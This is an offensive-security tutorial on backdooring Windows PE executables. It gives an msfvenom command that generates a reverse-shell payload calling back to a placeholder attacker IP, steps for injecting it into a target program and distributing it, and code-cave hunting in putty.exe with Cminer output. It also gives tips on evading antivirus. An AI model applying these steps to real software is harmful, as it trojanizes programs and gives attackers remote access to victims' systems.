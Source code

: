 ```yaml
---
layout: default
---
```


# Backdooring PEs

Backdooring a PE (Portable Executable) file involves adding malicious code to the file in order to gain unauthorized access to a system or steal sensitive information. This is a common technique used by attackers to compromise systems and is a serious security threat.

To backdoor a PE file, an attacker can use a variety of techniques such as code injection, DLL hijacking, or modifying the import table. One common technique is to use a tool like Metasploit to generate a payload that can be injected into the PE file.

Here are the general steps to backdoor a PE file using Metasploit:

1. Generate a payload using Metasploit. This can be done using the `msfvenom` command in the terminal. For example, to generate a reverse shell payload, you can use the following command:

   ```
   msfvenom -p windows/shell_reverse_tcp LHOST=<attacker IP> LPORT=<attacker port> -f exe -o payload.exe
   ```

   This will generate a payload in the form of an executable file called `payload.exe`.

2. Identify the target PE file that you want to backdoor. This can be any executable file that runs on the target system.

3. Use a tool like `PE Explorer` to open the target PE file and locate the section where you want to inject the payload. This can be the `.text` section or any other section that contains executable code.

4. Use a hex editor to modify the target PE file and inject the payload into the desired section. This can be done by copying the payload code and pasting it into the target file at the appropriate location.

5. Save the modified PE file and distribute it to the target system.

Once the backdoored PE file is executed on the target system, the payload will be executed and the attacker will gain unauthorized access to the system. It is important to note that backdooring a PE file is illegal and can result in serious legal consequences. It is important to always use ethical hacking techniques and obtain proper authorization before attempting any type of security testing.

In this section, we shall walk over these steps in detail:

## Methods of implanting new code
The purpose of implanting new code is either to add additional functionalities to the program, or modify the exist code. For an attacker, the Code Caves are especially interesting as malicious code may be injected to these sections and modify the behavior of the program.

There are typcially three ways to implant new code to a PE file.

- Code Cave
	- The downside of using this method is that the size is most limited and if there are complex and longer shellcodes then it may not fit into the identified code cave location. 
- New Section
	- We can always create a new section and is stil one of the most powerful method as it gives the user flexibility to add shellcode of any length. The downsizde however, as this section is set as `executable`, the AV engines may flag this as malicious.
- Extending Section
	- We can extend the existing section ( typically the last one ) and increase its size enough to hold the shellcode.

We can also chain these method together: for example, find a code cave in a text section, which will hold a small piece of code, that will load additional code from an other section or resources. The new section need not be executable thereby lowering the risk of being flagged as malicious.

In this section for demonstration purposes, lets use code cave for backdooring:

### Code Cave
The first step is to find the appropriate location to store our payload, these spaces in the PE are called as "Code Caves". These are unallocated spaces within the program's code that can be used to inject additional code. These spaces are typically created during the compilation process when the compuler aligns code sections to specific code boundaries. 

We can use the [Cminer](https://github.com/EgeBalci/Cminer) for this purpose. To demonstrated the discovery of the code caves we shall use [putty.exe](https://www.putty.org/).

![Cminer1](/docs/resources/malware/Cminer1.png)

And the size of each of these caves as demonstrated below:

```                                                            
[+] 6 Caves found.                                                                          
                         
[#] Cave 1                                                                                  
[*] Section: .data                                                            
[*] Cave Size: 3090 byte.                                                     
[*] Start Address: 0x47b3fc                                            
[*] End Address: 0x47c00e                                            
[*] File Ofset: 0x7b3fc                                                                     
                                                                                            
[#] Cave 2                                                                                  
[*] Section: .data                                                      
[*] Cave Size: 559 byte.                                             
[*] Start Address: 0x47a9e1                                            
[*] End Address: 0x47ac10                                              
[*] File Ofset: 0x7a9e1                                                                     
                                                                                            
[...]                                                                   
```                       

We can use any of these sections to store our malicious code, the seciton `.data` hold initialized data and/or global variables, also this section is usually READABLE and WRITEABLE. The `.text` section is where the code resides and is READABLE and EXECUTABLE.

We can look into these section with a tool called [PE Bear](https://github.com/hasherezade/pe-bear). The tool helps us understand the various sections and their characteristics.


![PE Tools](/docs/resources/malware/PETool1.gif)

There are functionalities too add sections to the binary or extend any section. Simply click on the section and modify the size, as shown below:

![PETool Section](/docs/resources/malware/modifysection.png)

We can also there sections using the [x64dbg.exe](https://x64dbg.com/) tool.

![x64DGB](/docs/resources/malware/x64dgb1.gif)






